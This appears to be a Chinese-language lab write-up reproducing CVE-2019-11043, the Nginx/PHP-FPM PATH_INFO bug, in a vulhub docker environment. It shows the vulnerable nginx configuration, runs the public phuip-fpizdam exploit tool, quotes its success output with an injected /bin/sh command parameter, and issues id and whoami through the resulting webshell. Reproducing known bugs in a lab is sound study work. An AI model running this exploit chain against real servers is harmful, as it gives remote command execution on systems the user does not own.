





## 漏洞信息

### **漏洞描述**

Nginx 上 fastcgi_split_path_info 在处理带有 %0a 的请求时，会因为遇到换行符 \n 导致 PATH_INFO 为空。而 php-fpm 在处理 PATH_INFO为空的情况下，存在逻辑缺陷。攻击者通过精心的构造和利用，可以导致远程代码执行。

### **利用条件：**

nginx配置了fastcgi_split_path_info

### **受影响系统：**

PHP 5.6-7.x，Nginx>=0.7.31

那我们先来看一下nginx.conf中的具体配置

```
location ~ [^/]\.php(/|$) {

 ...

 fastcgi_split_path_info ^(.+?\.php)(/.*)$;

 fastcgi_param PATH_INFO $fastcgi_path_info;

 fastcgi_pass   php:9000;

 ...

}
```

解释一下

```
fastcgi_split_path_info ^(.+?\.php)(/.*)$;
```

这一行将请求 URI 分割为两部分：

- 第一个捕获组 `(.+?\.php)` 匹配以 `.php` 结尾的最短路径，作为脚本文件名
- 第二个捕获组 `(/.*)`匹配剩余的路径信息
- 结果会被存储在 `$fastcgi_script_name` 和 `$fastcgi_path_info` 变量中

用的是非贪婪匹配 (`+?`)，这样可以确保只匹配到第一个找到的 `.php` 文件。

1. `fastcgi_param PATH_INFO $fastcgi_path_info;`

这一行将 Nginx 解析出的路径信息传递给 PHP-FPM，作为 `PATH_INFO` 环境变量。PHP 可以通过 `$_SERVER['PATH_INFO']` 访问这个值。

此时我们可以使用换行符（％0a）来破坏`fastcgi_split_path_info`指令中的Regexp。Regexp被损坏导致PATH_INFO为空，从而触发该漏洞。

## 漏洞复现

### 安装docker，golang环境

```
sudo apt update
sudo apt upgrade
sudo apt-get install docker docker-compose
sudo apt install golang
```

### 搭建漏洞环境

```
git clone http://github.com/vulhub/vulhub.git
cd vulhub/php/CVE-2019-11043
docker-compose up -d
```

搭建好后我们访问`http://[远程服务器IP]:8080/index.php`



搭建成功！

然后我们安装漏洞利用工具phuip-fpizdam

phuip-fpizdam 是一个用于利用 PHP-FPM (FastCGI Process Manager) 中的一个安全漏洞的漏洞利用工具

### 安装漏洞利用工具

安装工具可以换个目录去安装~

```
git clone https://github.com/neex/phuip-fpizdam.git
cd phuip-fpizdam
go get -v && go build
```

运行这个工具试一下

```
./phuip-fpizdam
```



### 开始复现

工具一把梭

```
go run . "http://[ip]:8080/index.php"
```



解释一下

1. **Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs**：攻击成功了，攻击者通过在请求URL中添加特定的命令参数(`?a=/bin/sh+-c+'which+which'&`)成功执行了一个命令。这表明攻击者能够通过该漏洞远程执行代码。
2. **Trying to cleanup /tmp/a...**：攻击者尝试清理临时文件或目录，以去除攻击痕迹。

在初始利用之后，webshell被注入PHP-FPM进程。然后我们可以执行命令

然后我们传入

```
?a=id
```

注意，因为php-fpm会启动多个子进程，在访问/index.php?a=id时需要多访问几次，以访问到被污染的进程。



继续传入

```
?a=whoami
```



已经成功拿到shell可执行命令了
